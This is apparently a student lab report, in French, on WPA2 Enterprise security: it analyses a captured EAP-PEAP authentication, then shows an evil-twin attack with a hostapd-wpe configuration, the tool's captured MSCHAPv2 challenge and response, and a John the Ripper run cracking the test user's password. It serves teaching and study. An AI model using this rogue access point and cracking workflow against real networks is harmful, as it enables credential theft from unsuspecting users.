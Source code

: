 # Sécurité des réseaux sans fil - Laboratoire WPA2 Entreprise


Authors : Emmanuel Schmid and Théo Gallandat

## 1. Capture et analyse d’une authentification WPA Entreprise

### Comparer votre capture au processus d’authentification expliqué en classe


Identifier le canal utilisé par l’AP dont la puissance est la plus élevée.
Vous pouvez fairececi avec airodump-ng, par exemple


### Requête et réponse d’authentification système ouvert
![alt text](./images/Authen1.png)
![alt text](./images/Authen2.png)

### Requête et réponse d’association
![alt text](./images/Assoc1.png)
![alt text](./images/Assoc2.png)

### Sélection de la méthode d’authentification
![alt text](./images/methoAuthNego.png)
![alt text](./images/methodeAuthSelect.png)

### Phase d’initiation.
> Arrivez-vous à voir l’identité du client ?
![alt text](./images/Identity.png)

### Phase hello
#### Client
![alt text](./images/ClientHello.png)
> * Version TLS 
* Suites cryptographiques et méthodes de compression proposées par le client et acceptées par l’AP
* Nonces
* Session ID

#### Serveur
![alt text](./images/srvHello.png)

> * Version TLS
* Suites cryptographiques et méthodes de compression proposées par le client et acceptées par l’AP
* Nonces
* Session ID

### Phase de transmission de certificats
* Certificat serveur
![alt text](./images/PhaseCertif.png)
* Change cipher spec
![alt text](./images/ChangeCipherSpec.png)

### Authentification interne et transmission de la clé WPA
(échange chiffré, vucomme « Application data »)
![alt text](./images/AppData.png)

### 4 way hadshake
![alt text](./images/handshakes.png)

### Questions

1. Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ? 
> * EAP-TLS
* EAP-PEAP

2. Quelle méthode d’authentification est utilisée ?
> * EAP-PEAP

3. Lors de l’échange de certificats entre le serveur d’authentification et le client :

  * Le serveur envoie un certificat au client ? Oui
![alt text](./images/srvCertif.png)


  * Le client envoie un certificat au serveur ? Non
![alt text](./images/clientCertif.png)

  c. Les deux s’échangent des certificats ? Non



## 2. Attaque WPA Entreprise

4. Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?

Extrait de `/etc/hostapd-wpe/hostapd-wpe.conf`
```
# Configuration file for hostapd-wpe

# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# May have to change these depending on build location
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

# 802.11 Options
ssid=hostapd-wpe
channel=1
```

On peut donc choisir l'interface, le ssid et le channel. Ici les modifications nécessaires ont été l'interface, et il faudrait aussi modifier le nom du ssid pour qu'il colle au nom du réseau dont on veut crée un `evil twin`. Ici de manière partique nous avons pas changer le ssid.

5. Quel type de hash doit-on indiquer à john pour craquer le handshake ?

Output de l'exécution de `hostapd-wpe`:
```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr 00:c0:ca:8f:d9:e6 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA 94:65:2d:a4:34:92 IEEE 802.11: associated
wlan0: CTRL-EVENT-EAP-STARTED 94:65:2d:a4:34:92
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Thu May 17 07:04:03 2018
	 username:	getting_hacked
	 challenge:	7a:46:19:94:04:65:7c:58
	 response:	74:2e:95:a4:03:a3:44:26:28:62:44:f1:cb:45:b2:a1:97:e6:d5:9f:f3:70:a1:2c
	 jtr NETNTLM:	getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c
```

On lui donne un hahs de type `netntlm`, ici `getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c` :
```
john --format=netntlm hash.txt                                                                                 
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 12x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
mdpasse          (getting_hacked)
1g 0:00:02:14 DONE 3/3 (2018-05-17 18:13) 0.007448g/s 29557Kp/s 29557Kc/s 29557KC/s mdpatkh..mdpageo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe est donc : `mdpasse`

6. Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
  * EAP-FAST/MSCHAPv2 (Phase 0)
  * PEAP/MSCHAPv2
  * EAP-TTLS/MSCHAPv2
  * EAP-TTLS/MSCHAP
  * EAP-TTLS/CHAP
  * EAP-TTLS/PA
